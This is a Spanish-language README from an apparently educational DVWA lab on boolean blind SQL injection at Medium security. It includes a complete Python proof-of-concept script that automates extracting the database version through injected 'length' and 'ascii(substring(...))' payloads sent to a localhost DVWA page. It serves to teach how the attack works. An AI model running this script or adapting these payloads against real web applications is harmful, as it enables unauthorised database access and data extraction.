# Vulnerabilidad de Inyección SQL Ciega - Nivel Medio (Automatizada)

Este README describe brevemente la vulnerabilidad de Inyección SQL Ciega y cómo explotarla de forma automatizada en el nivel de seguridad Medio, basándonos en el script `poc.py` proporcionado.

## Resumen de la Vulnerabilidad de Inyección SQL Ciega

La Inyección SQL Ciega es una variación de la Inyección SQL donde el atacante no recibe mensajes de error detallados de la base de datos. La información se infiere observando las respuestas de la aplicación a consultas SQL inyectadas que producen resultados booleanos (verdadero o falso), manifestándose en cambios en el contenido, tiempo de respuesta, etc.

## Explotación Automatizada (con el script `poc.py`) - Nivel de Seguridad Medio

El script `poc.py` proporcionado demuestra cómo automatizar la extracción de la versión del sistema de gestión de bases de datos (DBMS) utilizando Inyección SQL Ciega.

### Configuración Inicial del Script

El script comienza importando las librerías `requests` y `string`. Se define un diccionario de `proxies` si se utiliza un proxy como Burp Suite. Se crea una sesión HTTP (`requests.Session()`) para mantener las cookies de sesión (`PHPSESSID`) y el nivel de seguridad (`security`). **Es crucial reemplazar el valor de `PHPSESSID` con el de tu propia sesión y asegurarse de que la cookie de seguridad esté configurada en `medium`.** Se define la `URL objetivo` (`u`).

### Encontrar la Longitud de `@@version`

El script itera a través de posibles longitudes de la versión de la base de datos (de 1 a 29). Para cada longitud `i`, construye una carga útil SQL que pregunta si la longitud de la versión es igual a `i`: `1 and length(@@version)=i#`. Envía una petición POST a la URL objetivo con el parámetro `id` establecido a la carga útil y `Submit` a "Submit". Analiza la respuesta (`resp.text`). Si la cadena "MISSING" no se encuentra en la respuesta, se asume que la condición es verdadera, se guarda la longitud (`len`) y se detiene el bucle.

### Recuperar la Cadena de `@@version`

El script itera a través de cada posición de carácter en la cadena de la versión (de 1 a `len`). Para cada posición `i`, itera a través de todos los caracteres imprimibles (`string.printable`). Para cada carácter `c`, construye una carga útil SQL que pregunta si el carácter en la posición `i` de la versión de la base de datos tiene el valor ASCII de `c`: `1 and ascii(substring(@@version,i,1))=hex(ord(c))#`. Envía una petición POST con la carga útil. Analiza la respuesta. Si "MISSING" no está presente, se asume que la condición es verdadera y se añade el carácter `c` a la variable `version`.

### Ejecución del Script

1.  Guarda el siguiente código como `poc.py`:

    ```python
    """
    example output of @@version: 5.7.16-0ubuntu0.16.04.1

    first find length of the @@version string:
    1 and length(@@version)=7#

    iterate thru printable ASCII and retreive @@version string
    1 and ascii(substring(@@version,1,1))=0x35#
    """

    import requests
    import string
    from urllib.parse import quote, unquote

    #proxies = {
    #    "http" : "http://127.0.0.1:8080/"
    #}

    # initiate HTTP session
    session = requests.Session()
    session.cookies['security'] = 'medium'
    session.cookies['PHPSESSID'] = 'TU_PHPSESSID'

    u = 'http://localhost/DVWA/vulnerabilities/sqli_blind/index.php'

    # find length of @@version string
    for i in range(1, 30):
        payload = "1 and length(@@version)=" + str(i) + "#"
        params = {'id': payload, 'Submit': "Submit"}
        resp = session.post(u, data=params)

        if resp.text.find("MISSING") == -1:
            len = i
            break

    # retreive @@version string
    version=""
    for i in range(1, len + 1):
        for c in string.printable:
            payload = "1 and ascii(substring(@@version,{0},1))={1}#".format(i, hex(ord(c)))
            params = {'id': payload, 'Submit': "Submit"}
            resp = session.post(u, data=params)

            if resp.text.find("MISSING") == -1:
                print (payload)
                version += c

    print (version)
    ```

![imagen de la vulnerabilidad SQL Injection Blind 1](../../assets/SQLInjectionBlindMedium01.png)

2.  **Reemplaza `'TU_PHPSESSID'` con el valor de tu cookie `PHPSESSID`** obtenida al inspeccionar las cookies de tu navegador mientras interactúas con DVWA en el nivel de seguridad Medio.
3.  **Asegúrate de que la variable `u` contenga la URL correcta de la página de Inyección SQL Ciega de DVWA.**
5.  Ejecuta el script desde tu terminal con `python3 poc.py`.

El script automatizará el proceso de enviar múltiples peticiones y analizar las respuestas para extraer la versión de la base de datos, evitando las limitaciones de la Inyección SQL Ciega en el nivel de seguridad Medio.

![imagen de la vulnerabilidad SQL Injection Blind 2](../../assets/SQLInjectionBlindMedium02.png)
